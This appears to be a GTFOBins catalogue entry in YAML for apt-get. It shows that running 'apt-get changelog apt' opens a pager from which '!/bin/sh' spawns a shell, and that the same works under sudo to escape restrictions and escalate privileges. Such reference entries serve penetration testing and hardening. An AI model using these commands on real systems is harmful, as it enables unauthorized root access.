 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - code: |
        sudo apt-get changelog apt
        !/bin/sh
---
```

